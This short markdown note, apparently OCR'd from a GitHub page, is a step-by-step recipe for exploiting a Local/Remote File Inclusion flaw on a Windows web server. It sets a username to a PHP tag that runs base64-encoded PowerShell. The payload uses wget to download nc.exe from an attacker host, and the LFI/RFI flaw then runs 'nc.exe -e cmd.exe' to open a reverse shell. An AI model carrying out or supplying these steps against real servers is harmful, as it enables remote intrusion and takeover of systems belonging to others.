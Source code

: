 ### REQUIREMENTS: Confirm that the server is vulnerable to Remote File Inclusion/Local File Inclusion

### STEPS:

#### 1) Create a new user in the app inserting our encoded payload as the username value:

#### echo "wget http://ATTACK_IP/nc.exe -o C:\\Windows\\TEMP\\nc.exe" | iconv -t UTF-16LE | base64

#### 2) The final username value payload becomes: "<?=`powershell /enc ENCODED_PAYLOAD`?>"

#### 3) Abuse the LFI/RFI vulnerability to make the command execute on the server.

#### 4) Create another user with: echo "C:\Windows\TEMP\nc.exe -e cmd.exe IP_ADDRESS PORT" | iconv -t UTF-16LE | base64"

#### 5) Repeat steps to get your reverse shell.

### Similar approach can be used on a linux machine as well
